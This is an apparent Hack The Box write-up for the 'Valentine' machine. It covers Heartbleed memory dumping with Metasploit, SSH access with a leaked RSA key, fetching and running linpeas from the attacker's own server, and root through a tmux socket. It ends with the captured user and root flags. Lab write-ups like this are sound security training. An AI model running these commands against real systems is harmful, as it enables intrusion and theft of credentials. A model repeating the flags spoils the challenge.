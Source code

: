 # Valentine - Easy

```shell
sudo vim /etc/hosts
#add valentine.htb

nmap -T4 -p- -A -Pn -v valentine.htb

nmap --script ssl-heartbleed -p 443 -A -v valentine.htb
#scan port 443 for heartbleed vulnerability

gobuster dir -u http://valentine.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml -t 50

msfconsole -q

use auxiliary/scanner/ssl/openssl_heartbleed

set VERBOSE true

set LEAK_COUNT 3

set RHOSTS valentine.htb

run
#dumps memory
#read through it

#go through gobuster scan
#/dev contains hype_key
#decode to get rsa key

vim hype_key
#paste key contents

chmod 600 hype_key

ssh -i hype_key hype@valentine.htb
#use passphrase found earlier
#gives pubkey error
#we need to use ssh-rsa flag

ssh -i hype.key -o PubkeyAcceptedKeyTypes=+ssh-rsa hype@valentine.htb
#this works

cat user.txt

#in attacker machine
python3 -m http.server

#in hype ssh
wget http://10.10.14.2:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#linpeas shows tmux process running as root
#run same command
/usr/bin/tmux -S /.devs/dev_sess

#we get root shell
cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 5.9p1 (Ubuntu)
  * 80 - http - Apache httpd 2.2.22 (Ubuntu)
  * 443 - ssl/http - Apache httpd 2.2.22

* Checking the webpage on port 80, we can see an image of a woman and a heart.

* The image of the heart used here is the same as the one used for [HeartBleed](https://heartbleed.com/)

* We can confirm that by checking the webpage on 443 (which is using SSL).

* Using the ```ssl-heartbleed``` script with ```nmap``` to scan port 443, it shows that the version of ```OpenSSL``` used is vulnerable.

* We can scan the web directories on port 80 in the background, and attempt to exploit ```heartbleed```.

* Using ```Metasploit```, we can search, configure and execute the ```heartbleed``` exploit - this dumps the memory.

* Going through the memory dump, we find the following pieces of information:

  * We get a MD5 hash, but we are unable to crack it
  
  * We get a base64-encoded string, which when decoded gives the string "heartbleedbelievethehype"

  * We get the request headers for a page /decode.php

* Now, if we check the page /decode.php on port 443, we get a standard page for decoding input.

* It links to /encode.php, which encodes input.

* These pages decode and encode from/to base64, and we can test by submitting input.

* Going back to our ```gobuster``` scan, we can see a directory /dev

* This directory (on port 80) includes two files - 'notes.txt' and 'hype_key'.

* 'notes.txt' does not contain anything useful.

* 'hype_key' contains hex text - we can decode it using ```Cyberchef``` using the recipe 'From Hex'.

* This gives us the contents of a RSA key file - as the filename is labelled 'hype_key', this could be for an user named 'hype'.

* We can save the contents to a keyfile, and modify its permissions.

* Attempting to login as 'hype' via SSH, when asked for a passphrase, we can use the base64-decoded string found earlier.

* While logging in, we get an error "sign_and_send_pubkey: no mutual signature supported".

* This can be resolved by adding 'ssh-rsa' as an accepted key type while logging in.

* We can login as 'hype' and get user flag.

* For privesc, we can attempt to use ```linpeas```.

* As this is an older machine, it shows multiple possible exploit routes:

  * Kernel exploit for 3.2.0-23-generic
  * ```dirtycow```
  * ```tmux``` running as root

* We can attempt to exploit ```tmux``` running as root in this case.

* ```linpeas``` shows the ```tmux``` process running:

```/usr/bin/tmux -S /.devs/dev_sess```

* So, we can simply use the same command to get ```tmux``` session as root, and read root flag.

```markdown
1. User flag - 9f09ce8a084fd705150e4cf3cd4431e8

2. Root flag - daa07f5036baa9ce77507a4849afa69e
```
